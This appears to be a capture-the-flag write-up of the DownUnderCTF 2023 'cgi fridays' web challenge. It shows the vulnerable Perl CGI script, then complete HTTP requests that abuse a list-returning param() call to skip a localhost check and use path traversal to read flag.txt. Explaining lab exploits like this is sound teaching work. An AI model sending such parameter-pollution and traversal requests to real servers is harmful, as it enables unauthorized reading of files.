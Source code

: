 # cgi fridays

## Table of Contents

1. [Overview](#overview)
2. [Background](#background)
3. [Enumeration](#enumeration)
4. [Exploitation](#exploitation)
5. [Conclusion](#conclusion)

## Overview

- Solved by: @Foo
- Contributor: @siunam
- 116 solves / 164 points
- Author: hashkitten
- Overall difficulty for me (From 1-10 stars): ★★★★★☆☆☆☆☆

## Background

1999 called, and they want their challenge back.

Author: hashkitten

[https://web-cgi-fridays-de834c0607c7.2023.ductf.dev](https://web-cgi-fridays-de834c0607c7.2023.ductf.dev)

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230903212421.png)

## Enumeration

**Home page:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230903212443.png)

In here, we can view a few of the web server's information, like it's kernel version, CPU info, etc:

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230903213014.png)

**In this challenge, we can download a [file](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/web/cgi-fridays/cgi-fridays.zip):**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.03|21:31:02(HKT)]
└> file cgi-fridays.zip            
cgi-fridays.zip: Zip archive data, at least v2.0 to extract, compression method=store
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.03|21:31:06(HKT)]
└> unzip cgi-fridays.zip 
Archive:  cgi-fridays.zip
   creating: src/cgi-bin/
  inflating: src/cgi-bin/route.pl    
  inflating: src/Dockerfile          
 extracting: src/flag.txt            
   creating: src/htdocs/
  inflating: src/htdocs/.htaccess    
  inflating: src/htdocs/index.shtml  
   creating: src/htdocs/pages/
  inflating: src/htdocs/pages/about.txt  
 extracting: src/htdocs/pages/denied.txt  
 extracting: src/htdocs/pages/home.txt  
```

**In `src/htdocs/index.shtml`, we can see that it uses Server-Side Include (SSI) to include the `/cgi-bin/route.pl` Perl script:**
```html
  <div class="content">
    <div class="status ok">
      <pre><!--#include virtual="/cgi-bin/route.pl?$QUERY_STRING" --></pre>
    </div>
  </div>
```

**Let's dig through that Perl script!**
```perl
#!/usr/bin/env perl

use strict;
use warnings;
use CGI::Minimal;

use constant HTDOCS => '/usr/local/apache2/htdocs';

sub read_file {
    my ($file_path) = @_;
    my $fh;

    local $/;
    open($fh, "<", $file_path) or return "read_file error: $!";
    my $content = <$fh>;
    close($fh);

    return $content;
}

sub route_request {
    my ($page, $remote_addr) = @_;

    if ($page =~ /^about$/) {
        return HTDOCS . '/pages/about.txt';
    }

    if ($page =~ /^version$/) {
        return '/proc/version';
    }

    if ($page =~ /^cpuinfo$/) {
        return HTDOCS . '/pages/denied.txt' unless $remote_addr eq '127.0.0.1';
        return '/proc/cpuinfo';
    }

    if ($page =~ /^stat|io|maps$/) {
        return HTDOCS . '/pages/denied.txt' unless $remote_addr eq '127.0.0.1';
        return "/proc/self/$page";
    }

    return HTDOCS . '/pages/home.txt';
}

sub escape_html {
    my ($text) = @_;

    $text =~ s/</&lt;/g;
    $text =~ s/>/&gt;/g;

    return $text;
}

my $q = CGI::Minimal->new;

print "Content-Type: text/html\r\n\r\n";

my $file_path = route_request($q->param('page'), $ENV{'REMOTE_ADDR'});
my $file_content = read_file($file_path);

print escape_html($file_content);
```

In here, when GET parameter `page` is given, it'll read the file content base on the file path:

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230903224106.png)

Hmm... It seems like if we can view `stat`, `io`, or `maps` page, we can leverage the **path traversal vulnerability**.

But, how to bypass the `127.0.0.1` client IP?

After trying bunch of headers like `X-Forwarded-Host`, I can't bypass it.

## Exploitation

According to [the PDF from Black Hat Asia 2016](https://www.blackhat.com/docs/asia-16/materials/asia-16-Rubin-The-Perl-Jam-2-The-Camel-Strikes-Back.pdf) that found by one of my teammates, it seems like ***Perl's `param()` has a fatal flaw.***

If you read the PDF a little bit, it basically says **`param()` may return a scalar or a list.**

**That being said, if we provide 2 `page` GET parameters:**
```
/cgi-bin/route.pl?page=version&page=about
```

**It'll return a list like this:**
```perl
("version", "about")
```

**That being said, we should be able to bypass the `127.0.0.1`!**
```http
GET /cgi-bin/route.pl?page=io&page=127.0.0.1 HTTP/2
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230904201207.png)

Nice!!

Then, we can now **leverage path traversal to read the flag file**!!

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230904203033.png)

Oh crap... We have to match the regular expression pattern to get the flag, and **the directory must exist...**

Hmm... Let's **find a directory that contains `stat`, `io`, or `maps`.**

**To do so, I'll use `find` command in Linux:**
```shell
┌[siunam♥Mercury]-(~/ctf/DownUnderCTF-2023/web/cgi-fridays)-[2023.09.04|21:52:14(HKT)]
└> find / -type d -regex '.*/\(stat\|io\|maps\).*' 2>/dev/null
[...]
/sys/class/iommu
[...]
```

**Let's try that directory!**
```http
GET /cgi-bin/route.pl?page=../../sys/class/iommu/../../../flag.txt&page=127.0.0.1 HTTP/2
```

![](https://github.com/siunam321/CTF-Writeups/blob/main/DownUnderCTF-2023/images/Pasted%20image%2020230904215517.png)

Nice! It worked!

- **Flag: `DUCTF{s qqjust another perl hacker q and print ucfirst}`**

## Conclusion

What we've learned:

1. Exploiting Perl's `param()` flaw
